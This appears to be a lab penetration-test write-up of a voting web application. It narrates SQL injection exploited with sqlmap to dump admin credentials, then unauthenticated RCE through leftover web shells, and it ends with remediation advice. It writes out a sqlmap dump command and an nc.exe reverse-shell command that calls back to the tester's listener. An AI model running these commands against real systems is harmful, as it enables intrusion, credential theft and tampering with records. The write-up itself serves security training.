







# Voting System — SQLi to Full DB Dump + Exposed Web Shell to RCE

**Target:** `http://192.168.8.50:8080` (Windows, XAMPP — Apache 2.4.52, MariaDB backend)
**Result:** Unauthenticated SQL injection exposing the full admin credential table, plus a pre-existing web shell giving unauthenticated RCE as a local Administrator
**Tester:** Kelvin Bigson — Junior Penetration Tester
**Date:** July 24, 2026

> Full formal report: [`Voting_System_Pentest_Report.pdf`](./Voting_System_Pentest_Report.pdf)

---

## TL;DR

Two independent critical paths into this box, either one enough on its own:

1. The login form's `voter` field was injectable — `sqlmap` walked straight through it and dumped the entire admin credential table, no auth needed.
2. Content discovery turned up a directory full of leftover web shells and attacker tooling (`webshell.php`, `nc.exe`, and friends) sitting in `/Images/`, wide open with no authentication — an instant, unauthenticated path to command execution. The compromised account also turned out to already be a local Administrator, so no privilege escalation was even needed.

```
SQL injection in /login.php (voter param) ──► sqlmap ──► full admin table dump

Pre-existing web shell in /Images/ ──► unauthenticated RCE ──► nc.exe reverse shell
      ──► already local Administrator ──► full host compromise
```

## Findings Summary

| Finding | Severity | CVSS-band |
|---|---|---|
| SQL Injection in Login Functionality — Full DB Access & Auth Bypass | **Critical** | 9.0–10 |
| Exposed Web Shell Leading to Remote Code Execution | **Critical** | 9.0–10 |

**2 Critical**

---

## Attack Chain

### 1. SQL injection in the login form

The login page's "voter" (username) field passed straight into a backend SQL query with no sanitization. A single quote in the field was enough to start confirming it:



An automated Wapiti scan independently corroborated the finding against a MariaDB backend:



### 2. Confirming and exploiting with sqlmap

The login request was captured in Burp Suite and replayed through `sqlmap`, which confirmed error-based and time-based blind injection, fingerprinted the stack (MySQL 5 / MariaDB fork, on Windows/Apache/PHP), and enumerated the available databases — including one named, unsurprisingly, `votesystem`:



```
sqlmap -u "http://192.168.8.50:8080/login.php" --data="voter=x&password=x" -p voter --dbs
```

### 3. Dumping the admin table

Targeting `votesystem` directly and dumping the `admin` table exposed three administrator accounts — usernames, full names, and bcrypt-hashed passwords:



A `hashcat` dictionary attack (mode 3200, bcrypt) against the three hashes using `rockyou.txt` didn't crack any of them — a reasonable password policy on those specific accounts. That's a small mercy, though: it doesn't change the severity of the underlying flaw, which independently gives an unauthenticated attacker full read/write access to the database, including the ability to tamper with vote records.

### 4. A second way in: leftover web shells

Separately, content discovery with `feroxbuster` turned up a `/Images/` directory stuffed with things that had no business being there — multiple PHP web shells (`webshell.php`, `shell.php`, `mcsam.php`, `move.php`, `code.php`) sitting alongside legitimate app assets, plus attacker tooling like `nc.exe`, `main.exe`, and `GruntHTTP.exe`.



Browsing directly to `webshell.php` gave immediate, unauthenticated command execution — `dir`, `whoami`, whatever was typed into its command box:



### 5. Upgrading to an interactive shell

Since a copy of `nc.exe` was conveniently already sitting in the same directory, it was used through the web shell to call back to a listener on the attacking machine:

```
C:\xampp\htdocs\votesystem\images\nc.exe -e cmd.exe 192.168.8.143 4444
```



### 6. No privilege escalation needed

Post-exploitation enumeration found the compromised account, `inveteckwinlab\inveteck`, was *already* a member of the local Administrators group — and configured with "Password required: No." The host's patch level (8 hotfixes, none newer than 2015) rounded things out: full administrative control, no extra steps required.

---

## Attack Chain Summary

| Stage | Action | Result |
|---|---|---|
| 1 — Recon | Wapiti scan + manual testing on `/login.php` | SQL injection identified in `voter` parameter |
| 2 — Exploitation | `sqlmap` against the injection | Backend enumerated, `votesystem.admin` dumped |
| 3 — Password cracking | `hashcat` (bcrypt, rockyou.txt) | No hashes recovered — doesn't reduce SQLi severity |
| 4 — Content discovery | `feroxbuster` against the app | Pre-existing web shells + attacker tooling found in `/Images/` |
| 5 — RCE | Browsed to `webshell.php` | Unauthenticated arbitrary command execution |
| 6 — Shell upgrade | `nc.exe` (already present) via the web shell | Interactive reverse shell established |
| 7 — Privilege confirmation | Post-exploitation enumeration | Account already local Administrator — full compromise |

## Remediation

| Finding | Fix |
|---|---|
| SQL Injection | Use parameterized queries / prepared statements; strict input validation; least-privilege DB accounts; WAF in front of the login form; suppress detailed DB error messages |
| Exposed web shell / RCE | Remove all web shells and attacker tooling from the web root immediately; audit `/Images/` (and the rest of the tree) for unauthorized files; disable script execution in upload directories; enforce file-upload validation and content-type checks; run Apache/MySQL under a least-privilege service account |

Beyond the two headline findings, the account's "Password required: No" configuration and the host's decade-old patch level are worth fixing independently — they're what turned the web shell into instant full Administrator access rather than just a foothold.

---

## Methodology

Black-box assessment aligned to **NIST SP 800-115** and the **OWASP Testing Guide (v4)**, combining automated scanning (Wapiti, sqlmap, feroxbuster) with manual verification via Burp Suite, to demonstrate real-world impact rather than relying on scanner output alone.

## Disclaimer

This assessment was conducted against a lab/test environment for skills development and demonstration purposes.
